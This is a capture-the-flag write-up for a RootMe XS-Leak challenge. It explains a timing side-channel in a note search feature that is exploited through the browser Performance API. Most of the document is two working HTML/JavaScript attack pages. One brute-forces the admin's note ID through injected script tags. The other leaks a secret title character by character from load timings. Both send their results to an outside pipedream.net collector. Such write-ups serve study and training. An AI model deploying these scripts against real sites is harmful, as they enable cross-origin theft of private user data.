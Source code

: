 ```yaml
---
title: "Rootme CTF - XsLeaks"
tags:
  - client side
  - web
  - CTF 
---
```


# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.

![img](./images/xs.png)

## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)